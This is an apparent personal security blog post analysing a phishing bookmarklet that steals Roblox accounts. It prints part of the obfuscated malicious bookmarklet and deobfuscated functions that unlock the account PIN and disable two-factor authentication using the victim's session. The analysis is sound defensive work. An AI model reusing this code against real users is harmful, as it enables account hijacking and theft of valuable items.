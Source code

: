 ```yaml
---
title: Bookmarklets as XSS Attack Vectors
date: 2024-06-09 05:08:01 +0800
categories: [security]
tags: [javascript,xss,analysis]     # TAG names should always be lowercase
pin: false
---
```


## The Target

Some of us are lucky when it comes to investing. My friend (known as Gary from here on out) is one of these, but not in a way you might expect. Gary started playing Roblox when he was young just as I and many other kids did.
However, Gary took a liking to collecting hats and clothing on the website. He spent whatever birthday money and allowances he got on viking hats and fire-themed balaclavas for his avatar.

This seemed like a bit of a waste of money - at the time. Fast forward to nearly 10 years later, and now his vast collection is worth several thousand REAL dollars. Unfortunately, this amount of wealth comes with 
a large target on his back. Hackers are constantly attempting to get access to his items, through scam websites and malicious emails.

## The Attack

Recently, Gary got a message asking if someone could make some fanart of his unique avatar. He said sure. The artist responded they would start soon, but need him to send over a special texture map of his avatar. 
As far as I am told, this isnt completely out of the ordinary. The texture map can help a lot with correctly modeling avatars in animations, for example.

But then the artist sent Gary a link to a website - which I will not include here for obvious reasons - containing a 'bookmarkable button' to quickly generate texture maps for his avatar. How convenient and not suspicious 
at all!

Gary immediately asked me to take a look and see if the website was malicious or not. So I did. And boy did I find some stuff.

The website was relatively barebones except for a giant link-button and 'walkthrough' video explaining how to properly use it. The first thing I did was inspect the website's source. I couldn't help but immediately
notice a hilariously suspicious anchor element:

```javascript
<a href="javascript:const%20_0x4cc798%3D_0x2001%3B%28function%28_0x5d8d84%2C_0x388ac2%29%7Bconst%20_0x108b54%3D_0x2001%2C_0x39dcc9%3D_0x5d8d84%28%29%3Bwhile%28%21%21%5B%5D%29%7Btry%7Bconst%20_0x1b78d8%3D-parseInt%28_0x108b54%280x185%29%29%2F0x1%2A%28parseInt%28_0x108b54%280xc3%29%29%2F0x2%29%2B-parseInt%28_0x108b54%280x183%29%29%2F0x3%2A%28parseInt%28_0x108b54%280x152%29%29%2F0x4%29%2B-parseInt%28_0x108b54%280x17c%29%29%2F0x5%2B-parseInt%28_0x108b54%280x162%29%29%2F0x6%2A%28-parseInt%28_0x108b54%280xc2%29%29%2F0x7%29%2BparseInt%28_0x108b54%280x144%29%29%2F0x8%2B-parseInt%28_0x108b54%280x111%29%29%2F0x9%2BparseInt%28_0x108b54%280x142%29%29%2F0xa%2A%28parseInt%28_0x108b54%280xca%29%29%2F0xb%29%3Bif%28_0x1b78d8%3D%3D%3D_0x388ac2%29break%3Belse%20_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7Dcatch%28_0x5c0eac%29%7B_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7D%7D%7D%28_0x219d%2C0x1dfe2%29%2Cwindow%5B_0x4cc798%280xe9%29%5D%3Ddocument%5B_0x4cc798%280x110%29%5D%28_0x4cc798%280x169%29%29%5B0x0%5D%5B%27getAttribute%27%5D%28_0x4cc798%280x11a%29%29%2Cwindow%5B_0x4cc798%280xbd%29%5D%3D%27%27%29%3Bfunction%20_0x2001%28_0x34f505%2C_0x56e9bf%29%7Bconst%20_0x219db2%3D_0x219d%28%29%3Breturn%20_0x2001%3Dfunction%28_0x20010f%2C_0x526ece%29%7B_0x20010f%3D_0x20010f-0xa3%3Blet%20_0x3a8f3e%3D_0x219db2%5B_0x20010f%5D%3Breturn%20_0x3a8f3e%3B%7D%2C_0x2001%28_0x34f505%2C_0x56e9bf%29%3B%7Dconst%20acceptableHeaders%3D%7B%27accept%27%3A%27application%2Fjson%2C%5Cx20text%2Fplain%2C%5Cx20%2A%2F%2A%27%2C%27accept-language%27%3A_0x4cc798%280x13e%29%2C%27sec-ch-ua%27%3A_0x4cc798%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0x4cc798%280xa6%29%2C%27sec-fetch-dest%27%3A_0x4cc798%280x14c%29%2C%27sec-fetch-mode%27%3A_0x4cc798%280xa4%29%2C%27sec-fetch-site%27%3A_0x4cc798%280xec%29%2C%27sec-gpc%27%3A%271%27%7D%2CyourSitesURL%3D_0x4cc798%280xae%29%2CgetCsrfToken%3Dasync%28%29%3D%3E%7Bconst%20_0x3d5a96%3D_0x4cc798%2C_0x313a18%3Dawait%20fetch%28%27https%3A%2F%2Fapis.roblox.com%2Fuser-settings-api%2Fv1%2Fuser-settings%3FwhoCanJoinMeInExperiences%3DFollowers%27%2C%7B%27credentials%27%3A%27include%27%2C%27headers%27%3AacceptableHeaders%2C%27method%27%3A%27POST%27%2C%27mode%27%3A_0x3d5a96%280xa4%29%7D%29%5B_0x3d5a96%280x12b%29%5D%28_0x498197%3D%3E%7B%7D%29%3Bif%28%21_0x313a18%29return%20await%20getCsrfToken%28%29%3Blet%20_0x11d173%3D_0x313a18%5B_0x3d5a96%280xf8%29%5D%5B_0x3d5a96%280x129%29%5D%28_0x3d5a96%280xd4%29%29%3Bif%28%21_0x11d173%29return%20await%20getCsrfToken%28%29%3Breturn%20_0x11d173%3B%7D%2CunlockAccountByPin%3Dasync%20_0x181c0c%3D%3E%7Bconst%20_0xe09cf9%3D_0x4cc798%3Bfetch%28%27https%3A%2F%2Fauth.roblox.com%2Fv1%2Faccount%2Fpin%2Funlock%3Fpin%3D%27%2B_0x181c0c%2C%7B%27headers%27%3A%7B%27accept%27%3A_0xe09cf9%280xa9%29%2C%27accept-language%27%3A_0xe09cf9%280x13e%29%2C%27content-type%27%3A%27application%2Fjson%3Bcharset%3DUTF-8%27%2C%27sec-ch-ua%27%3A_0xe09cf9%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0xe09cf9%280xa6%29%2C%27sec-fetch-dest%27%3A_0xe09cf9%280x14c%29%2C%27sec-fetch-mode%27%3A_0xe09cf9%280xa4%29%2C%27sec-fetch-site%27%3A_0xe09cf9%280xec%29%2C%27sec-gpc%27%3A%271%27%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%7D%2C%27referrer%27%3A_0xe09cf9%280xa3%29%2C%27referrerPolicy%27%3A_0xe09cf9%280xc0%29%2C%27body%27%3A_0xe09cf9%280x160%29%2B_0x181c0c%2B%27%5Cx22%7D%27%2C%27method%27%3A_0xe09cf9%280x137%29%2C%27mode%27%3A_0xe09cf9%280xa4%29%2C%27credentials%27%3A_0xe09cf9%280x12f%29%7D%29%5B%27then%27%5D%28_0xbcaa97%3D%3E_0xbcaa97%5B_0xe09cf9%280x178%29%5D%28%29%29%5B_0xe09cf9%280x108%29%5D%28async%20_0x1cbef2%3D%3E%7Bconst%20_0x25f449%3D_0xe09cf9%3Bif%28_0x1cbef2%5B%27includes%27%5D%28_0x25f449%280x143%29%29%29document%5B_0x25f449%280x151%29%5D%28_0x25f449%280x156%29%29%5B_0x25f449%280xad%29%5D%28_0x25f449%280x172%29%2C_0x181c0c%29%2CsetDescription%28%7B%27pin%27%3A_0x181c0c%7D%29%2CcontinueToTwoStep%28%29%2Cconsole%5B_0x25f449%280x14e%29%5D%28_0x25f449%280xcf%29%29%2Cdocument%5B_0x25f449%280xc6%29%5D%28%27PIN%27%29%5B_0x25f449%280xc1%29%5D%5B_0x25f449%280x13f%29%5D%3D_0x25f449%280x139%29%3Belse%20_0x1cbef2%5B_0x25f449%280xb3%29%5D%28_0x25f449%280xff%29%29%3Fdocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B_0x25f449%280x125%29%5D%3D_0x25f449%280x164%29%3Adocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B%27innerHTML%27%5D%3D_0x25f449%280x146%29%3B%7D%29%3B%7D%2CcreateOTPsession%3Dasync%28%29%3D%3E%7Bconst%20_0x1f209f%3D_0x4cc798%2C_0x1c30af%3Dawait%20fetch%28_0x1f209f%280xc5%29%2C%7B%27credentials%27%3A_0x1f209f%280x12f%29%2C%27headers%27%3A%7B%27Accept%27%3A_0x1f209f%280xa9%29%2C%27Accept-Language%27%3A%27en-US%2Cen%3Bq%3D0.5%27%2C%27Content-Type%27%3A_0x1f209f%280x136%29%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%2C%27Sec-GPC%27%3A%271%27%2C%27Sec-Fetch-Dest%27%3A_0x1f209f%280x14c%29%2C%27Sec-Fetch-Mode%27%3A_0x1f209f%280xa4%29%2C%27Sec-Fetch-Site%27%3A_0x1f209f%280xec%29%7D%2C%27referrer%27%3A%27https%3A%2F%2Fwww.roblox.com%2F%27%2C%27body%27%3A_0x1f20
```

Clearly this was some obfuscated JavaScript. Even taking a look at some of the strings was damning - `creteOTPsession`, `getCsrfToken`, etc. I immediately told Gary to stop talking to this guy and block him.

But I decided to go a bit deeper and started deobfuscating the JavaScript. Hilariously, the author actually just used [this](https://deobfuscate.io/) link, so the process was fairly trivial. However, local variable
names were obviously still random hex strings and unable to be recovered.

## The Payload

As expected, the payload JavaScript was a large amount of fetch requests to endpoints related to account settings and security:

```javascript
const disable2fa = async (_0x28bbe9, _0x197e35, _0x4fe56d) => {
  _0x197e35 = _0x197e35 || 0x0;
  _0x197e35++;
  if (_0x197e35 >= 0x3) {
    return;
  }
  let _0x42560a = await fetch("https://twostepverification.roblox.com/v1/users/" + _0x28bbe9 + "/configuration/authenticator/disable", {
    'headers': Object.assign(acceptableHeaders, {
      'x-csrf-token': window.csrf
    }),
    'referrer': "https://www.roblox.com/",
    'referrerPolicy': "strict-origin-when-cross-origin",
    'method': "POST",
    'mode': 'cors',
    'credentials': 'include'
  })['catch'](() => {});
  if (_0x42560a.status === 0x193) {
    _0x4fe56d = _0x42560a.headers.get("x-csrf-token");
    await disable2fa(_0x28bbe9, _0x197e35, _0x4fe56d);
  } else {
    return true;
  }
```

Perhaps the most interesting part of the entire payload was the very first fetch request made. Before accessing any user settings or inventory listings, the script makes a call to lookup details for a user with
ID 6055914656 - 'badmilky22':

```javascript
fetch("https://users.roblox.com/v1/users/6055914656", {
  'headers': {
    'accept': "application/json, text/plain, */*",
    'accept-language': "en-GB,en-US;q=0.9,en;q=0.8",
    'sec-ch-ua': "\"Chromium\";v=\"118\", \"Brave\";v=\"118\", \"Not=A?Brand\";v=\"99\"",
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': "\"Windows\"",
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': "cors",
    'sec-fetch-site': "same-site",
    'sec-gpc': '1'
  },
  'referrer': "https://www.roblox.com/",
  'referrerPolicy': "strict-origin-when-cross-origin",
  'method': 'GET',
  'mode': "cors",
  'credentials': 'include'
```

After the call, the payload then passes the user's bio/description into the `parseBinary` function:

```javascript
const evil_email = parseBinary(_0x5dd11c.description);
```

That's odd. Why would it do that? Well, I decided to look at badmilky22's account description. It was just a bunch of binary:

![badmilky22](/assets/img/badmilky22.png)

Decoding this to ASCII gives the hacker's email address `lr46opcs@fastsearcher.com`! Later on in the payload, this email address is used when victim account details are hijacked.

Afterwards, the payload does some pretty standard hacker stuff like resetting passwords and disabling 2FA. 

## But... what about CORS?

I couldn't understand how the payload managed to get around CORS. For those of you unaware, Cross Origin Resource Sharing (CORS) is a security setting for HTTP that can easily stop CSRF attacks like this. The
gist is that JavaScript from another 'Origin' (i.e. not roblox.com) should NOT be able to make credentialed requests or access HTTP responses from credentialed requests on behalf of a user. In this case, the
malicious 'link' (`<a/>` tag) element embedded with obfuscated JavaScript should NOT be able to successfully make these malicious requests on behalf of a user.

At first I was convinced that this guy just didn't know what he was doing, but then I realized that the malicious domain site had been registered only 5 days prior, and that clearly some thought was put into this
payload. So I decided to watch the 'walkthrough' video. The video instantly clarified everything for me - the bookmark the site wanted you to make was NOT to the malicious domain, but to literally drag and drop
the link-button onto your bookmarks bar.

This creates what modern browsers call Bookmarklets - or 'bookmarks' that are actually just JavaScript code. This is incredibly valuable in a cross-site scripting attack as it can easily bypass any CORS restrictions.
As far as I am aware, this isn't a very widely used or discussed attack vector. The implications of 'stored-xss' on any origin site are massive. 

## Conclusion

It seems that this is simply an accepted facet of modern browsers. I personally have never heard of someone using bookmarklets for a legitimate purpose, and the attack implications are critical. I would seriously 
recommend Mozilla and Chrome consider disabling telemetry for JavaScript-enabled bookmarklets, or including a custom origin/header for bookmarklet requests.


